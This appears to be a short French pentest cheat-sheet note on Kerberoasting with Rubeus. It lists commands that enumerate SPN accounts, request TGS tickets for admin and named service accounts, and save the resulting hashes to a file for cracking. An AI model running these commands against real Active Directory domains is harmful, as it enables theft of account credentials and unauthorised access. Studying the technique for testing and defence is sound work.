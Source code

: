 ```yaml
---
public: true # set to true to make the article publishable
---
```


Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```shell
# affiche un récapitulatif des comptes avec des SPNs 
# détaille certaines informations telles que :
# - les comptes dont le mot de passe est ancien
# - le nombre de comptes par méthode de hachage (rc4, aes128 etc)
./Rubeus.exe kerberoast /stats

# demande de TGS pour les comptes ayant 'Admincount' à 1
./Rubeus.exe kerberoast /ldapfilter:'admincount=1'

# Demande du TGS pour un utilisateur particulier pour un domaine particulier
./Rubeus.exe kerberoast /user:mssqlsvc /domain:domain.loca /nowrap

./Rubeus.exe kerberoast /outfile:hash.txt
```

[[Cassage de mots de passes Kerberos]]
